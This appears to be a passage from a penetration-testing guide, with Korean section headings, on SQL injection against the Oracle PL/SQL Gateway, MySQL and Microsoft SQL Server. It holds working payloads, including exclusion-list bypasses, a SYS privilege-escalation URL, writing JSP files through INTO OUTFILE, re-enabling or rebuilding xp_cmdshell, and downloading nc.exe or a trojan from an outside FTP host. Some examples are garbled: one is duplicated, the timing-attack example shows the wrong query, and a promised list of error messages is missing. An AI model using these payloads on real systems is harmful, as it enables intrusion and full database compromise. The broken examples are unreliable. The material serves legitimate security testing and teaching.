It is possible to exploit vulnerabilities in the PL/SQL packages that are installed by default in the database server. How you do this depends on the version of the PL/SQL Gateway. In earlier versions of the PL/SQL Gateway, there was nothing to stop an attacker from accessing an arbitrary PL/SQL package in the database server. We mentioned the OWA_UTIL package earlier. This can be used to run arbitrary SQL queries: 
http://www.example.com/pls/dad/OWA_UTIL.CELLSPRINT? 
P_THEQUERY=SELECT+USERNAME+FROM+ALL_USERS Cross Site Scripting attacks could be launched via the HTP package: 
http://www.example.com/pls/dad/HTP.PRINT?C
BUF=<script>alert('XSS')</script> 
Clearly, this is dangerous, so Oracle introduced a PLSQL Exclusion list to prevent direct access to such dangerous procedures. Banned items include any request starting with SYS.*, any request starting with DBMS_*, any request with HTP.* or OWA*. It is possible to bypass the exclusion list however. What's more, the exclusion list does not prevent access to packages in the CTXSYS and MDSYS schemas or others, so it is possible to exploit flaws in these packages: 
http://www.example.com/pls/dad/CXTSYS.DRILOAD.VALI
DATE_STMT?SQLSTMT=SELECT+1+FROM+DUAL 
This will return a blank HTML page with a 200 OK response if the database server is still vulnerable to this flaw (CVE-2006-0265) 
Testing the PL/SQL Gateway For Flaws 
Over the years, the Oracle PL/SQL Gateway has suffered from a number of flaws, including access to admin pages (CVE-20020561), buffer overflows (CVE-2002-0559), directory traversal bugs, and vulnerabilities that allow attackers to bypass the Exclusion List and go on to access and execute arbitrary PL/SQL packages in the database server. 
Bypassing the PL/SQL Exclusion List 
It is incredible how many times Oracle has attempted to fix flaws that allow attackers to bypass the exclusion list. Each patch that Oracle has produced has fallen victim to a new bypass technique. The history of this sorry story can be found here: http://seclists. org/fulldisclosure/2006/Feb/0011.html 
Bypassing the Exclusion List - Method 1 
When Oracle first introduced the PL/SQL Exclusion List to prevent attackers from accessing arbitrary PL/SQL packages, it could be trivially bypassed by preceding the name of the schema/package with a hex encoded newline character or space or tab: 
http://www.example.com/pls/dad/%0ASYS.PACKAGE.PROC 
http://www.example.com/pls/dad/%20SYS.PACKAGE.PROC 
http://www.example.com/pls/dad/%09SYS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 2 
Later versions of the Gateway allowed attackers to bypass the exclusion list by preceding the name of the schema/package with a label. In PL/SQL a label points to a line of code that can be jumped to using the GOTO statement and takes the following form: <<NAME>> 
http://www.example.com/pls/dad/<<LBL>>SYS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 3 
Simply placing the name of the schema/package in double quotes could allow an attacker to bypass the exclusion list. Note that this will not work on Oracle Application Server 10g as it converts the user's request to lowercase before sending it to the database server and a quote literal is case sensitive - thus "SYS" and "sys" are not the same and requests for the latter will result in a 404 Not Found. On earlier versions though the following can bypass the exclusion list: 


http://www.example.com/pls/dad/"SYS".PACKAGE.PROC 
Bypassing the Exclusion List - Method 4 
Depending upon the character set in use on the web server and on the database server, some characters are translated. Thus, depending upon the character sets in use, the "y" character (0xFF) might be converted to a "Y" at the database server. Another character that is often converted to an upper case "Y" is the Macron character - 0xAF. This may allow an attacker to bypass the exclusion list: 
http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC 
http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 5 
Some versions of the PL/SQL Gateway allow the exclusion list to be bypassed with a backslash - 0x5C: 
http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 6 
This is the most complex method of bypassing the exclusion list and is the most recently patched method. If we were to request the following 
http://www.example.com/pls/dad/foo.bar?xyz=123 
the application server would execute the following at the database server: 
1 declare 
2 rc__ number; 
3 start_time__ binary_integer; 
4 simple_list__ owa_util.vc_arr; 
5 complex_list__ owa_util.vc_arr; 
6 begin 
7 start_time__ := dbms_utility.get_time; 
8 owa.init_cgi_env(:n__,:nm__,:v__); 
9 htp.HTBUF_LEN := 255; 
10 null; 
11 null; 
12 simple_list__(1) := 'sys.%'; 
13 simple_list__(2) := 'dbms\_%'; 
14 simple_list__(3) := 'utl\_%'; 
15 simple_list__(4) := 'owa\_%'; 
16 simple_list__(5) := 'owa.%'; 
17 simple_list__(6) := 'htp.%'; 
18 simple_list__(7) := 'htf.%'; 
19 if ((owa_match.match_pattern('foo.bar', simple_list__, 
complex_list__, true))) then 20 rc__ := 2; 
21 else 
22 null; 
23 orasso.wpg_session.init(); 
24 foo.bar(XYZ=>:XYZ); 
25 if (wpg_docload.is_file_download) then 
26 rc__ := 1; 
27 wpg_docload.get_download_file(:doc_info); 
28 orasso.wpg_session.deinit(); 
29 null; 
30 null; 
31 commit; 
32 else 
33 rc__ := 0; 
34 orasso.wpg_session.deinit(); 
35 null; 
36 null; 
37 commit; 
38 owa.get_page(:data__,:ndata__); 
39 end if; 
40 end if; 
41 :rc__ := rc__; 
42 :db_proc_time__ := dbms_utility.get_time.start_ 
time__; 
43 end; 
Notice lines 19 and 24. On line 19, the user's request is checked against a list of known "bad" strings, i.e., the exclusion list. If the requested package and procedure do not contain bad strings, then the procedure is executed on line 24. The XYZ parameter is passed as a bind variable. 
If we then request the following: 
http://server.example.com/pls/dad/INJECT'POINT 
the following PL/SQL is executed: 
.. 
18 simple_list__(7) := 'htf.%'; 
19 if ((owa_match.match_pattern('inject'point', simple_ 
list__, complex_list__, true))) then 
20 rc__ := 2; 
21 else 
22 null; 
23 orasso.wpg_session.init(); 
24 inject'point; 
.. 
This generates an error in the error log: "PLS-00103: Encountered the symbol 'POINT' when expecting one of the following. . ." What we have here is a way to inject arbitrary SQL. This can be exploited to bypass the exclusion list. First, the attacker needs to find a PL/SQL procedure that takes no parameters and doesn't match anything in the exclusion list. There are a good number of default packages that match this criteria, for example: 
JAVA_AUTONOMOUS_TRANSACTION.PUSH 
XMLGEN.USELOWERCASETAGNAMES 


PORTAL.WWV_HTP.CENTERCLOSE 
ORASSO.HOME 
WWC_VERSION.GET_HTTP_DATABASE_INFO 

An attacker should pick one of these functions that is actually available on the target system (i.e., returns a 200 OK when requested). As a test, an attacker can request 
http://server.example.com/pls/dad/orasso.home?FOO=BAR 
the server should return a "404 File Not Found" response because the orasso.home procedure does not require parameters and one has been supplied. However, before the 404 is returned, the following PL/SQL is executed: 
.. 
.. 
if ((owa_match.match_pattern('orasso.home', simple_ 
list__, complex_list__, true))) then

 rc__ := 2; 
else
 null;
   orasso.wpg_session.init();
   orasso.home(FOO=>:FOO);
 ..
 .. 

Note the presence of FOO in the attacker's query string. Attackers can abuse this to run arbitrary SQL. First, they need to close the brackets: 
http://server.example.com/pls/dad/orasso.home?);--=BAR 
This results in the following PL/SQL being executed: 
.. 
orasso.home();--=>:);--); 
.. 

Note that everything after the double minus (--) is treated as a comment. This request will cause an internal server error because one of the bind variables is no longer used, so the attacker needs to add it back. As it happens, it's this bind variable that is the key to running arbitrary PL/SQL. For the moment, they can just use HTP. PRINT to print BAR, and add the needed bind variable as :1: 
http://server.example.com/pls/dad/orasso.home?);HTP. 
PRINT(:1);--=BAR 

This should return a 200 with the word "BAR" in the HTML. What's happening here is that everything after the equals sign - BAR in this case - is the data inserted into the bind variable. Using the same technique it's possible to also gain access to owa_util.cellsprint again: http://www.example.com/pls/dad/orasso.home?);OWA_ UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_ USERS 
To execute arbitrary SQL, including DML and DDL statements, the attacker inserts an execute immediate :1: 
http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual 

Note that the output won't be displayed. This can be leveraged to exploit any PL/SQL injection bugs owned by SYS, thus enabling an attacker to gain complete control of the backend database server. For example, the following URL takes advantage of the SQL injection flaws in DBMS_EXPORT_EXTENSION (see http://secunia. com/advisories/19860) 
http://www.example.com/pls/dad/orasso.home?); execute%20immediate%20:1;--=DECLARE%20BUF%20 VARCHAR2(2000);%20BEGIN%20 BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES ('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_ LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20 PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS. OWA_UTIL''; END;--','SYS',1,'VER',0);END; 
Assessing Custom PL/SQL Web Applications 
During black box security assessments, the code of the custom PL/SQL application is not available, but it still needs to be assessed for security vulnerabilities. 
Testing for SQL Injection 
Each input parameter should be tested for SQL injection flaws. These are easy to find and confirm. Finding them is as easy as embedding a single quote into the parameter and checking for error responses (which include 404 Not Found errors). Confirming the presence of SQL injection can be performed using the concatenation operator. For example, assume there is a bookstore PL/SQL web application that allows users to search for books by a given author: 
http://www.example.com/pls/bookstore/books.search?au-thor=DICKENS 
If this request returns books by Charles Dickens, but 
http://www.example.com/pls/bookstore/books.search?author=DICK'ENS 

returns an error or a 404, then there might be a SQL injection flaw. This can be confirmed by using the concatenation operator: http://www.example.com/pls/bookstore/books.search?au


thor=DICK'||'ENS 
If this request returns books by Charles Dickens, you've confirmed the presence of the SQL injection vulnerability. 


Tools 
============================================================================================

- SQLInjector: http://www.databasesecurity.com/sql-injector.htm 
- Orascan (Oracle Web Application VA scanner), NGS SQuirreL (Oracle RDBMS VA Scanner): http://www.nccgroup.com/en/ our-services/security-testing-audit-compliance/informationsecurity-software/ngs-orascan/ 

|

References 
============================================================================================

Whitepapers 
---------------------------------------------------------------------------------------------

- Hackproofing Oracle Application Server (A Guide to Securing Oracle 9): http://www.itsec.gov.cn/docs/20090507151158287612.pdf 
- Oracle PL/SQL Injection: http://www.databasesecurity.com/ oracle/oracle-plsql-2.pdf 

|

|

Testing for MySQL
============================================================================================

개요
============================================================================================

SQL Injection vulnerabilities occur whenever input is used in the construction of a SQL query without being adequately constrained or sanitized. The use of dynamic SQL (the construction of SQL queries by concatenation of strings) opens the door to these vulnerabilities. SQL injection allows an attacker to access the SQL servers. It allows for the execution of SQL code under the privileges of the user used to connect to the database. 
MySQL server has a few particularities so that some exploits need to be specially customized for this application. That's the subject of this section. 

|

테스트 방법
============================================================================================

When an SQL injection vulnerability is found in an application backed by a MySQL database, there are a number of attacks that could be performed depending on the MySQL version and user privileges on DBMS. 
MySQL comes with at least four versions which are used in production worldwide, 3.23.x, 4.0.x, 4.1.x and 5.0.x. Every version has a set of features proportional to version number. 

- From Version 4.0: UNION 
- From Version 4.1: Subqueries 
- From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION_SCHEMA 
- From Version 5.0.2: Triggers 

It should be noted that for MySQL versions before 4.0.x, only Boolean or time-based Blind Injection attacks could be used, since the subquery functionality or UNION statements were not implemented. 

From now on, we will assume that there is a classic SQL injection vulnerability, which can be triggered by a request similar to the the one described in the Section on Testing for SQL Injection. 

.. code-block:: html

    http://www.example.com/page.php?id=2 

|

The Single Quotes Problem 
---------------------------------------------------------------------------------------------

Before taking advantage of MySQL features, it has to be taken in consideration how strings could be represented in a statement, as often web applications escape single quotes. 

MySQL quote escaping is the following: 

.. code-block:: html

    'A string with \'quotes\'' 

That is, MySQL interprets escaped apostrophes (\') as characters and not as metacharacters. 
So if the application, to work properly, needs to use constant strings, two cases are to be differentiated: 

1. Web app escapes single quotes (' => \') 
2. Web app does not escape single quotes (' => ') 

Under MySQL, there is a standard way to bypass the need of single quotes, having a constant string to be declared without the need for single quotes. 

Let's suppose we want to know the value of a field named 'password' in a record, with a condition like the following: 


1. password like 'A%' 
2. The ASCII values in a concatenated hex: 

.. code-block:: html

    password LIKE 0x4125 

3. The char() function: 

.. code-block:: html

    password LIKE CHAR(65,37) 

|

Multiple mixed queries: 
---------------------------------------------------------------------------------------------

MySQL library connectors do not support multiple queries separated by ';' so there's no way to inject multiple non-homogeneous SQL commands inside a single SQL injection vulnerability like in Microsoft SQL Server. 
For example the following injection will result in an error: 

.. code-block:: html

    1 ; update tablename set code='javascript code' where 1 -

|

Information gathering 
============================================================================================

Fingerprinting MySQL 
---------------------------------------------------------------------------------------------

Of course, the first thing to know is if there's MySQL DBMS as a back end database. MySQL server has a feature that is used to let other DBMS ignore a clause in MySQL dialect. When a comment block ('/**/') contains an exclamation mark ('/*! sql here*/') it is interpreted by MySQL, and is considered as a normal comment block by other DBMS as explained in MySQL manual. 

Example: 

.. code-block:: html

    1 /*! and 1=0 */ 

Result Expected: 

If MySQL is present, the clause inside the comment block will be interpreted. 

Version 

There are three ways to gain this information: 

1. By using the global variable @@version 
2. By using the function [VERSION()] 
3. By using comment fingerprinting with a version number 
/*!40110 and 1=0*/ 
which means 

.. code-block:: html

    if(version >= 4.1.10) 
    add 'and 1=0' to the query. 

These are equivalent as the result is the same. In band injection: 

.. code-block:: html

    1 AND 1=0 UNION SELECT @@version /* 

Inferential injection: 

.. code-block:: html

    1 AND @@version like '4.0%' 

Result Expected: 

A string like this: 

.. code-block:: html

    5.0.22-log 

|

Login User 
---------------------------------------------------------------------------------------------

There are two kinds of users MySQL Server relies upon. 

1. [USER()]: the user connected to the MySQL Server. 
2. [CURRENT_USER()]: the internal user who is executing the query. 

There is some difference between 1 and 2. The main one is that an anonymous user could connect (if allowed) with any name, but the MySQL internal user is an empty name (''). Another difference is that a stored procedure or a stored function are executed as the creator user, if not declared elsewhere. This can be known by using CURRENT_USER. 
In band injection: 
1 AND 1=0 UNION SELECT USER() 
Inferential injection: 
1 AND USER() like 'root%' 
Result Expected: 
A string like this: 
user@hostname 
Database name in use 
There is the native function DATABASE() In band injection: 
1 AND 1=0 UNION SELECT DATABASE() 
Inferential injection: 
1 AND DATABASE() like 'db%' 
Result Expected: 
A string like this: 
dbname 
INFORMATION_SCHEMA 
From MySQL 5.0 a view named [INFORMATION_SCHEMA] was created. It allows us to get all informations about databases, tables, and columns, as well as procedures and functions. 
Here is a summary of some interesting Views. 
Tables_in_INFORMATION_SCHEMA  DESCRIPTION  
..[skipped].. SCHEMATA SCHEMA_PRIVILEGES TABLES TABLE_PRIVILEGES COLUMNS COLUMN_PRIVILEGES VIEWS ROUTINES TRIGGERS USER_PRIVILEGES  ..[skipped].. All databases the user has (at least) SELECT_priv The privileges the user has for each DB All tables the user has (at least) SELECT_priv The privileges the user has for each table All columns the user has (at least) SELECT_priv The privileges the user has for each column All columns the user has (at least) SELECT_priv Procedures and functions (needs EXECUTE_priv) Triggers (needs INSERT_priv) Privileges connected User has  

All of this information could be extracted by using known techniques as described in SQL Injection section. 
Attack vectors 
Write in a File 
If the connected user has FILE privileges and single quotes are not escaped, the 'into outfile' clause can be used to export query results in a file. 
Select * from table into outfile '/tmp/file' 
Note: there is no way to bypass single quotes surrounding a filename. So if there's some sanitization on single quotes like escape (\') there will be no way to use the 'into outfile' clause. 


This kind of attack could be used as an out-of-band technique to gain information about the results of a query or to write a file which could be executed inside the web server directory. 
Example: 
1 limit 1 into outfile '/var/www/root/test.jsp' FIELDS 
ENCLOSED BY '//'  LINES TERMINATED BY '\n<%jsp code 
here%>'; 
Result Expected: 
Results are stored in a file with rw-rw-rw privileges owned by MySQL user and group. 
Where /var/www/root/test.jsp will contain: 
//field values// 
<%jsp code here%> 
Read from a File 
Load_file is a native function that can read a file when allowed by the file system permissions. If a connected user has FILE privileges, it could be used to get the files' content. Single quotes escape sanitization can by bypassed by using previously described techniques. 
load_file('filename') 
Result Expected: 
The whole file will be available for exporting by using standard techniques. 
Standard SQL Injection Attack 
In a standard SQL injection you can have results displayed directly in a page as normal output or as a MySQL error. By using already mentioned SQL Injection attacks and the already described MySQL features, direct SQL injection could be easily accomplished at a level depth depending primarily on the MySQL version the pentester is facing. 
A good attack is to know the results by forcing a function/procedureor the server itself to throw an error. A list of errors thrown by MySQL and in particular native functions could be found on 
MySQL Manual. 
Out of band SQL Injection 
Out of band injection could be accomplished by using the 'into out-file' clause. 
Blind SQL Injection 
For blind SQL injection, there is a set of useful function natively provided by MySQL server. 
. 
String Length: 

LENGTH(str) 

. 
Extract a substring from a given string: 

SUBSTRING(string, offset, #chars_returned) 

. 
Time based Blind Injection: BENCHMARK and SLEEP 


BENCHMARK(#ofcycles,action_to_be_performed ) 
The benchmark function could be used to perform timing 
attacks, when blind injection by boolean values does not yield 
any results. 
See. SLEEP() (MySQL > 5.0.x) for an alternative on benchmark. 

For a complete list, refer to the MySQL manual at http://dev.mysql. com/doc/refman/5.0/en/functions.html 

|

Tools 
============================================================================================

- Francois Larouche: Multiple DBMS SQL Injection tool - http://www.sqlpowerinjector.com/index.htm 
- ilo--, Reversing.org - sqlbftools 
- Bernardo Damele A. G.: sqlmap, automatic SQL injection tool: http://sqlmap.org/ 
- Muhaimin Dzulfakar: MySqloit, MySql Injection takeover tool: http://code.google.com/p/mysqloit/ 
- http://sqlsus.sourceforge.net/ 


References 
============================================================================================

Whitepapers 
--------------------------------------------------------------------------------------------

- Chris Anley: "Hackproofing MySQL" - http://www.databasesecurity.com/mysql/HackproofingMySQL. 
pdf 

Case Studies 
--------------------------------------------------------------------------------------------

- Zeelock: Blind Injection in MySQL Databases - http://archive.cert.uni-stuttgart.de/bugtraq/2005/02/msg00289.html 

|

|

============================================================================================
Testing for SQL Server
============================================================================================

개요
============================================================================================

In this section some SQL Injection techniques that utilize specific features of Microsoft SQL Server will be discussed. 
SQL injection vulnerabilities occur whenever input is used in the construction of an SQL query without being adequately constrained or sanitized. The use of dynamic SQL (the construction of SQL queries by concatenation of strings) opens the door to these vulnerabilities. SQL injection allows an attacker to access the SQL servers and execute SQL code under the privileges of the user used to connect to the database. 
As explained in SQL injection, a SQL-injection exploit requires two things: an entry point and an exploit to enter. Any user-controlled parameter that gets processed by the application might be hiding a vulnerability. This includes: 

- Application parameters in query strings (e.g., GET requests) 
- Application parameters included as part of the body of a POST request 
- Browser-related information (e.g., user-agent, referrer) 
- Host-related information (e.g., host name, IP) 
- Session-related information (e.g., user ID, cookies) 

Microsoft SQL server has a few unique characteristics, so some exploits need to be specially customized for this application. 

|

테스트 방법
============================================================================================

SQL Server Characteristics 
--------------------------------------------------------------------------------------------

To begin, let's see some SQL Server operators and commands/ stored procedures that are useful in a SQL Injection test: 

1. comment operator: -- (useful for forcing the query to ignore the remaining portion of the original query; this won't be necessary in every case) 
2. query separator: ; (semicolon) 
3. Useful stored procedures include: 

- [xp_cmdshell] executes any command shell in the server with the same permissions that it is currently running. By default, only sysadmin is allowed to use it and in SQL Server 2005 it is disabled by default (it can be enabled again using sp_configure) 
- xp_regread reads an arbitrary value from the Registry (undocumented extended procedure) 
- xp_regwrite writes an arbitrary value into the Registry (undocumented extended procedure) 
- [sp_makewebtask] Spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text. It requires sysadmin privileges. 
- [xp_sendmail] Sends an e-mail message, which may include a query result set attachment, to the specified recipients. This extended stored procedure uses SQL Mail to send the message. 

Let's see now some examples of specific SQL Server attacks that use the aforementioned functions. Most of these examples will use the exec function. 

Below we show how to execute a shell command that writes the output of the command dir c:\inetpub in a browseable file, assuming that the web server and the DB server reside on the same host. The following syntax uses xp_cmdshell: 

.. code-block:: html

    exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\ 
    wwwroot\test.txt'--

Alternatively, we can use sp_makewebtask: 

.. code-block:: html

    exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 
    'select * from master.dbo.sysobjects'-

A successful execution will create a file that can be browsed by the pen tester. Keep in mind that sp_makewebtask is deprecated, and, even if it works in all SQL Server versions up to 2005, it might be removed in the future. 
In addition, SQL Server built-in functions and environment variables are very handy. The following uses the function db_name() to trigger an error that will return the name of the database: 

.. code-block:: html

    /controlboard.asp?boardID=2&itemnum=1%20AND%20 
    1=CONVERT(int,%20db_name()) 

Notice the use of [convert]: 

.. code-block:: html

    CONVERT ( data_type [ ( length ) ] , expression [ , style ] ) 

CONVERT will try to convert the result of db_name (a string) into an integer variable, triggering an error, which, if displayed by the vulnerable application, will contain the name of the DB. 

The following example uses the environment variable @@version , combined with a "union select"-style injection, in order to find the version of the SQL Server. 

.. code-block:: html

    /form.asp?prop=33%20union%20select%20 
    1,2006-01-06,2007-01-06,1,'stat','name1','na 
    me2',2006-01-06,1,@@version%20--

And here's the same attack, but using again the conversion trick: 

.. code-block:: html

    /form.asp?prop=33%20union%20select%20 
    1,2006-01-06,2007-01-06,1,'stat','name1','na 
    me2',2006-01-06,1,@@version%20--

Information gathering is useful for exploiting software vulnerabilities at the SQL Server, through the exploitation of an SQL-injection attack or direct access to the SQL listener. 

In the following, we show several examples that exploit SQL injection vulnerabilities through different entry points. 

|

Example 1: Testing for SQL Injection in a GET request. 
--------------------------------------------------------------------------------------------

The most simple (and sometimes most rewarding) case would be that of a login page requesting an user name and password for user login. You can try entering the following string "' or '1'='1" (without double quotes): 

.. code-block:: html

    https://vulnerable.web.app/login.asp?Username='%20or%20 
    '1'='1&Password='%20or%20'1'='1 

If the application is using Dynamic SQL queries, and the string gets appended to the user credentials validation query, this may result in a successful login to the application. 

|

Example 2: Testing for SQL Injection in a GET request 
--------------------------------------------------------------------------------------------

In order to learn how many columns exist 

.. code-block:: html

    https://vulnerable.web.app/list_report.aspx?num
    ber=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20 
    users;-

|

Example 3: Testing in a POST request 
--------------------------------------------------------------------------------------------

SQL Injection, HTTP POST Content: email=%27&whichSubmit=submit&submit.x=0&submit.y=0 

A complete post example: 

.. code-block:: html

    POST https://vulnerable.web.app/forgotpass.asp HTTP/1.1
    Host: vulnerable.web.app
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-
    US; rv:1.8.0.7) Gecko/20060909 Firefox/1.5.0.7 Paros/3.2.13 
    Accept: text/xml,application/xml,application/xhtml+xml,text/ 
    html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5 
    Accept-Language: en-us,en;q=0.5 
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7 
    Keep-Alive: 300 
    Proxy-Connection: keep-alive 
    Referer: http://vulnerable.web.app/forgotpass.asp 
    Content-Type: application/x-www-form-urlencoded 
    Content-Length: 50 

    email=%27&whichSubmit=submit&submit.x=0&submit.y=0 

The error message obtained when a ' (single quote) character is entered at the email field is: 

.. code-block:: html

    PMicrosoft OLE DB Provider for SQL Server error '80040e14' Unclosed quotation mark before the character string  '. /forgotpass.asp, line 15 

|

Example 4: Yet another (useful) GET example 
--------------------------------------------------------------------------------------------

Obtaining the application's source code 

.. code-block:: html

    a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\ 
    login.aspx c:\inetpub\wwwroot\login.txt';--

|

Example 5: custom xp_cmdshell 
--------------------------------------------------------------------------------------------

All books and papers describing the security best practices for SQL Server recommend disabling xp_cmdshell in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation. 
On SQL Server 2000: 

- If xp_cmdshell has been disabled with sp_dropextendedproc, we can simply inject the following code: 

.. code-block:: html

    sp_addextendedproc 'xp_cmdshell','xp_log70.dll' 

. 
If the previous code does not work, it means that the xp_log70. dll has been moved or deleted. In this case we need to inject the following code: 

.. code-block:: html

    CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait 
    int = 0) AS  DECLARE @result int, @OLEResult int, @RunResult int  DECLARE @ShellID int  EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID 
    OUT  IF @OLEResult <> 0 SELECT @result = @OLEResult  IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @ 
    OLEResult)  EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, 
    @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLERe
    sult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result 

This code, written by Antonin Foller (see links at the bottom of the page), creates a new xp_cmdshell using sp_oacreate, sp_oamethod and sp_oadestroy (as long as they haven't been disabled too, of course). Before using it, we need to delete the first xp_ cmdshell we created (even if it was not working), otherwise the two declarations will collide. 

On SQL Server 2005, xp_cmdshell can be enabled by injecting the following code instead: 

.. code-block:: html

    master..sp_configure 'show advanced options',1 
    reconfigure 
    master..sp_configure 'xp_cmdshell',1 
    reconfigure 

|

Example 6: Referer / User-Agent 
--------------------------------------------------------------------------------------------

The REFERER header set to: 

.. code-block:: html

    Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 
    'some_ip'); [SQL CODE]-

Allows the execution of arbitrary SQL Code. The same happens with the User-Agent header set to: 

.. code-block:: html

    sp_addextendedproc 'xp_cmdshell','xp_log70.dll' 

|

Example 7: SQL Server as a port scanner 
--------------------------------------------------------------------------------------------

In SQL Server, one of the most useful (at least for the penetration tester) commands is OPENROWSET, which is used to run a query on another DB Server and retrieve the results. The penetration tester can use this command to scan ports of other machines in the target network, injecting the following query: 

.. code-block:: html

    select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foo
    bar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','se
    lect 1')-

This query will attempt a connection to the address x.y.w.z on port 
p. If the port is closed, the following message will be returned: 
General network error. Check your network documentation 

.. code-block:: html

    OLE DB provider 'sqloledb' reported an error. The provider 
    did not give any information about the error. 

On the other hand, if the port is open, one of the following errors will be returned: Of course, the error message is not always available. If that is the case, we can use the response time to understand what is going on: with a closed port, the timeout (5 seconds in this example) will be consumed, whereas an open port will return the result right away. 
Keep in mind that OPENROWSET is enabled by default in SQL Server 2000 but disabled in SQL Server 2005. 

|

Example 8: Upload of executables 
--------------------------------------------------------------------------------------------

Once we can use xp_cmdshell (either the native one or a custom one), we can easily upload executables on the target DB Server. A very common choice is netcat.exe, but any trojan will be useful here. If the target is allowed to start FTP connections to the tester's machine, all that is needed is to inject the following queries: At this point, nc.exe will be uploaded and available. 

.. code-block:: html

    exec master..xp_cmdshell 'echo open ftp.tester.org > ftp
    script.txt';--
    exec master..xp_cmdshell 'echo USER >> ftpscript.txt';-- 
    exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
    exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--

If FTP is not allowed by the firewall, we have a workaround that exploits the Windows debugger, debug.exe, that is installed by default in all Windows machines. Debug.exe is scriptable and is able to create an executable by executing an appropriate script file. What we need to do is to convert the executable into a debug script (which is a 100% ASCII file), upload it line by line and finally call debug.exe on it. There are several tools that create such debug files (e.g.: makescr.exe by Ollie Whitehouse and dbgtool.exe by toolcrypt.org). The queries to inject will therefore be the following: 

.. code-block:: html

    exec master..xp_cmdshell 'echo [debug script line #1 of n] > 
    debugscript.txt';--
    exec master..xp_cmdshell 'echo [debug script line #2 of n] >> 
    debugscript.txt';--
    .... 
    exec master..xp_cmdshell 'echo [debug script line #n of n] >> 
    debugscript.txt';--
    exec master..xp_cmdshell 'debug.exe < debugscript.txt';--

At this point, our executable is available on the target machine, ready to be executed. There are tools that automate this process, most notably Bobcat, which runs on Windows, and Sqlninja, which runs on Unix (See the tools at the bottom of this page). 

Obtain information when it is not displayed (Out of band) 
--------------------------------------------------------------------------------------------

Not all is lost when the web application does not return any information --such as descriptive error messages (cf. Blind SQL Injection). For example, it might happen that one has access to the source code (e.g., because the web application is based on an open source software). Then, the pen tester can exploit all the SQL injection vulnerabilities discovered offline in the web application. Although an IPS might stop some of these attacks, the best way would be to proceed as follows: develop and test the attacks in a testbed created for that purpose, and then execute these attacks against the web application being tested. 
Other options for out of band attacks are described in Sample 4 above. 


Blind SQL injection attacks 
============================================================================================

Trial and error 
--------------------------------------------------------------------------------------------

Alternatively, one may play lucky. That is the attacker may assume that there is a blind or out-of-band SQL injection vulnerability in a the web application. He will then select an attack vector (e.g., a web entry), use fuzz vectors (1) against this channel and watch the response. For example, if the web application is looking for a book using a query 

.. code-block:: html

    select * from books where title=text entered by the user

then the penetration tester might enter the text: 'Bomba' OR 1=1- and if data is not properly validated, the query will go through and return the whole list of books. This is evidence that there is a SQL injection vulnerability. The penetration tester might later play with the queries in order to assess the criticality of this vulnerability. 


If more than one error message is displayed 
--------------------------------------------------------------------------------------------

On the other hand, if no prior information is available, there is still a possibility of attacking by exploiting any covert channel. It might happen that descriptive error messages are stopped, yet the error messages give some information. For example: 
. 
In some cases the web application (actually the web server) might return the traditional 500: Internal Server Error, say when the application returns an exception that might be generated, for instance, by a query with unclosed quotes. 

. 
While in other cases the server will return a 200 OK message, but the web application will return some error message inserted by the developers Internal server error or bad data. 


This one bit of information might be enough to understand how the dynamic SQL query is constructed by the web application and tune up an exploit. Another out-of-band method is to output the results through HTTP browseable files. 

|

Timing attacks 
--------------------------------------------------------------------------------------------

There is one more possibility for making a blind SQL injection attack when there is not visible feedback from the application: by measuring the time that the web application takes to answer a request. An attack of this sort is described by Anley in ([2]) from where we take the next examples. A typical approach uses the waitfor delay command: let's say that the attacker wants to check if the 'pubs' sample database exists, he will simply inject the following command: 

.. code-block:: html

    select * from books where title=text entered by the user 

Depending on the time that the query takes to return, we will know the answer. In fact, what we have here is two things: a SQL injection vulnerability and a covert channel that allows the penetration tester to get 1 bit of information for each query. Hence, using several queries (as many queries as bits in the required information) the pen tester can get any data that is in the database. Look at the following query 

.. code-block:: html

    declare @s varchar(8000) 
    declare @i int 
    select @s = db_name() 
    select @i = [some value] 
    if (select len(@s)) < @i waitfor delay '0:0:5' 


Measuring the response time and using different values for @i, we can deduce the length of the name of the current database, and then start to extract the name itself with the following query: 

.. code-block:: html

    if (ascii(substring(@s, @byte, 1)) & ( power(2, @bit))) > 0 
    waitfor delay '0:0:5' 

